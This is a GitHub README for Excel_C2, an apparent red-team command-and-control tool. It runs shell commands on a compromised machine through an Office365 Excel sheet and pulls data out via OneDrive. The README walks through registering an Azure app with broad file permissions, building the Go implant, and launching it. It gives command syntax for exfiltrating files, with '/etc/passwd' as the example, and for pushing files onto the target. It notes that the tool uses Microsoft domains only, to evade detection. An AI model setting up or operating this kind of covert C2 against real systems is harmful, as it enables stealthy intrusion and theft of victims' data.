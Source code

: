# Inspired from: https://github.com/looCiprian/GC2-sheet

# Excel_C2

Excel_C2 (Excel Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using an Office365 Excel sheet and exfiltrates data OneDrive.

# Why

This program has been developed in order to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Microsoft's domains to make detection more difficult.

# Set up

1. **Register an Azure Portal App**
    1. Log into the [Azure Active Directory Admin center](https://aad.portal.azure.com/) with a Global Administrator Account.
    1. Expand **Azure Active Directory** on the left navigation panel
    1. Expand **Applications**
    1. Select **App registrations**
    <p align="center">
        <img alt="Manage--App registrations" src="img/aad-portal-app-registrations.png" height="50%" width="50%">
    </p>
    1. Click the  **New Registration** button
    <p align="center">
        <img alt="New registration" src="img/new-registration.png" height="50%" width="50%">
    </p>
    1. Enter a name for your new app, select "Accounts in this organizational directory only (MSFT only - Single Tenant)", and click the **Register** button
    <p align="center">
        <img alt="New registration" src="img/new-application.png" height="50%" width="50%">
    </p>
    1. On the application page, note the **Application (client) ID** and **Directory (tenant) ID** values.  They will be used for `clientId` and `tenantId` respectively.
    <p align="center">
        <img alt="App IDs" src="img/app-ids.png" height="50%" width="50%">
    </p>
    1. Click **API permissions**
    <p align="center">
        <img alt="API permissions" src="img/api-perms.png" height="50%" width="50%">
    </p>
    1. Click the **Add a permission** button
    <p align="center">
        <img alt="Add permission" src="img/add-perm-button.png" height="50%" width="50%">
    </p>
    1. Click the **Microsoft Graph** button
    <p align="center">
        <img alt="Add MS Graph" src="img/add-graph-perm.png" height="50%" width="50%">
    </p>
    1.  Click the **Application permissions** button
    <p align="center">
        <img alt="Application Permissions" src="img/app-perm.png" height="50%" width="50%">
    </p>
    1. Type "files" to filter the permissions.  Then expand the **Files** option and check the box next to "Files.ReadWriteAll" and click the **Add permissions** button
    <p align="center">
        <img alt="Files Permissions" src="img/files-perm.png" height="50%" width="50%">
    </p>
    1. Add the same "Files.ReadWrite.All" under the **Delegated permissions** area
    1. Back on the "API permissions" page, click the **Grant admin consent for MSFT** button and **Yes** in the banner
    <p align="center">
        <img alt="Grant Consent" src="img/grant-consent.png" height="50%" width="50%">
    </p>
    1. In the naviation menu, select **Certificates & secrets** and click the **New client secret** button
    <p align="center">
        <img alt="New Secret" src="img/new-secret.png" height="50%" width="50%">
    </p>
    1. Enter a description and click the **Add** button
    <p align="center">
        <img alt="Add Secret" src="img/add-secret.png" height="50%" width="50%">
    </p>
    1. Copy the "Value" field of your newly created secret.  This will not be displayed again once you leave this page.  This will be used for the `clientSecret` field
    <p align="center">
        <img alt="Copy Secret" src="img/copy-secret.png" height="50%" width="50%">
    </p>

1. **Create the Excel Spreadsheet**

    1.  Login with the same account to [OneDrive](https://onedrive.live.com)
    1.  Click on the arrow next to the **New** button and select **Excel workbook**
    <p align="center">
        <img alt="New Workbook" src="img/new-excel.png" height="50%" width="50%">
    </p>
    1.  You need the ID for the onedrive as well as the ID for the new sheet you've created.  Lucikly Microsft makes it as difficult as possible to find that information.  I was able to get it using Postman.  Follow the guide at [https://learn.microsoft.com/en-us/graph/use-postman](https://learn.microsoft.com/en-us/graph/use-postman) to setup Postman (NOTE: you've already completed Step3 by following this README)
    1.  Once Postman is configured and you're able to authenticate successfully, find the **Get my files** API call and run that
    <p align="center">
        <img alt="Get My Files" src="img/get-my-files.png" height="50%" width="50%">
    </p>
    1.  In the response Body, search for the name of your newly created spreadsheet.  In that same JSON block, there will also be an "id" key.  Copy that value for `sheetId`
    1.  Also in that same JSON block, there is a "parentReference" key.  Inside that value, there is a "driveId" key.  Copy that value for `driveId`
    <p align="center">
        <img alt="Drive IDs" src="img/drive-ids.png" height="50%" width="50%">
    </p>
 
1. **Build executable**
 
    ```bash
    git clone https://github.com/grantok/Excel-C2
    cd Excel-C2
    go build excel-c2.go
    ```

1. **Start the C2**

    ```
    excel-c2 --tenant <tenantId> --client <clientId> --secret <clientSecret> --drive <driveId> --sheet <sheedId> --verbos <true|false>
    ```
   
   PS: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go)

## Features

- Command execution using Office365 Excel Sheet as a console
- Download files on the target using Microsfot OneDrive
- Data exfiltration using Microsft OneDrive
- Exit

### Command execution

The program will perform a request to the spreedsheet every 30 sec (by default) to check for new commands.
Enter the command in column **A** and the output will be added to column **B**

### Upload File

The "upload" command will upload a file from the target machine to OneDrive.  The syntax is 

 ```
upload;<remote path>
 ```
Example:
 ```
upload;/etc/passwd
 ```
DO **NOT** add spaces.

### Download File

The "download" command will download a file from OneDrive to the target machine.  The syntax is

 ```
download;<OneDrive file name>;<remote path>
 ```
Example:
 ```
download;down.txt;/home/user/downloaded.txt
 ```
DO **NOT** add spaces.

### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

PS: From *os* documentation: 
*If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.

### WorkFlow


# Demo


# Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

# Support the project

**Pull request** 
